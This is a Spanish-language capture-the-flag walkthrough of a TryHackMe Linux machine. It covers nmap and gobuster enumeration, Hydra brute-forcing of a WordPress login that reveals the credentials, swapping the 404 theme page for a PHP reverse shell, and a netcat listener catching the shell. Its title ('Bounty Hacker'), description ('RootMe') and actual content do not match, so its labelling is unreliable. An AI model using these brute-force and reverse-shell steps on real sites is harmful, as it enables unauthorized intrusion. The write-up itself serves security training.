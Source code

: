 # Resolución de la Máquina: Bounty Hacker

- **Plataforma:** TryHackMe
- **Dificultad:** Medio
- **Fecha de resolución:** 25/06/2025
- **Sistema Operativo:** Linux


## Descripción

RootMe es una máquina de nivel introductorio diseñada para enseñar conceptos básicos de enumeración web,
explotación remota y escalada de privilegios en sistemas Linux. Es ideal para principiantes que buscan familiarizarse con el flujo típico de un ataque en entornos CTF.

Esta máquina es especialmente útil para:

> Enumeración de servicios expuestos

> Explotación de vulnerabilidades web (RCE)

> Ganancia de acceso inicial (low privilege shell)

> Escalada de privilegios mediante binarios SUID mal configurados

## Enumeración

### Escaneo con Nmap

```bash
─$ nmap --open -sS -T5 -n -sV -Pn 10.10.39.168 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-25 18:34 CEST
Nmap scan report for 10.10.39.168
Host is up (0.092s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds
```
### Escaneo con gobuster

```bash
└─$ gobuster dir -u http://10.10.39.168/ -w /usr/share/wordlists/wfuzz/general/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.39.168/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/robots               (Status: 200) [Size: 41]
/admin                (Status: 301) [Size: 234] [--> http://10.10.39.168/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.39.168/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.39.168/css/]
/images               (Status: 301) [Size: 235] [--> http://10.10.39.168/images/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.39.168/js/]
/intro                (Status: 200) [Size: 516314]
/login                (Status: 302) [Size: 0] [--> http://10.10.39.168/wp-login.php]
/phpmyadmin           (Status: 403) [Size: 94]
/readme               (Status: 200) [Size: 64]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.39.168/feed/]
/sitemap              (Status: 200) [Size: 0]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 952 / 953 (99.90%)
===============================================================
Finished
===============================================================
```
En robots.txt encontraremos un diccionario junto a la primera flag, para visualizarlo lo haremos como si de un sitio web más se tratase.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Con un wget nos descargaremos este diccionario, lo limpiaremos debido a que hay muchas lineas repetidas.
```bash
wget http://10.10.196.195/fsocity.dic
sort -u archivo.txt > archivo_sin_repetidos.txt
```
Haremos un ataque de fuerza bruta con hydra únicamnete hacia el usuario, veremos que si el usuario existe el codigo de error es diferente y nos lo detecta.
Los parámetros del forumalario los podemos verificar enviando la petición de login hacia burpsuite.
```bash
└─$ hydra -I -L fsocity_clean.dic -p x 10.10.196.195 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=Invalid username" -t30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizatins, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 23:02:24
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:11452/p:1), ~382 tries per task
[DATA] attacking http-post-forms://10.10.196.195:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log%20In&testcooke=1:F=Invalid username
[STATUS] 1365.00 tries/min, 1365 tries in 00:01h, 10087 to do in 00:08h, 30 active
[STATUS] 1106.33 tries/min, 3319 tries in 00:03h, 8133 to do in 00:08h, 30 active
[443][http-post-form] host: 10.10.196.195   login: Elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: ELLIOT   password: x
[STATUS] 1028.86 tries/min, 7202 tries in 00:07h, 4250 to do in 00:05h, 30 active

```
Una vez detectado el usuario Eliot procederemos a lanzar el ataque de fuerza bruta contra la contraseña, hemos de tener en cuenta el campo F que detectara si las contraseñas probadas son incorrectas 
```bash
└─$ hydra -I -l ELLIOT -P fsocity_clean.dic 10.10.170.170 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect" -t30                             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-29 16:00:37
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-forms://10.10.170.170:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect

[STATUS] 2322.00 tries/min, 2322 tries in 00:01h, 9130 to do in 00:04h, 30 active
[443][http-post-form] host: 10.10.170.170   login: ELLIOT   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-29 16:03:07
```
Desde Apparece > Editor modificaremos la página que se muestra en caso de no encontrar la página por una reverse shell en PHP (www.revshells.com)
Ahora solo hara falta ponernos en escucha con netcat y haremos que cargue la página de error 404.
Aqui encontraremos el segundo flag.
```bash
└─$ nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.9.1.252] from (UNKNOWN) [10.10.51.184] 45458
Linux ip-10-10-51-184 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 16:28:05 up 9 min,  0 users,  load average: 0.49, 0.19, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (5360): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-10-51-184:/$ 
```
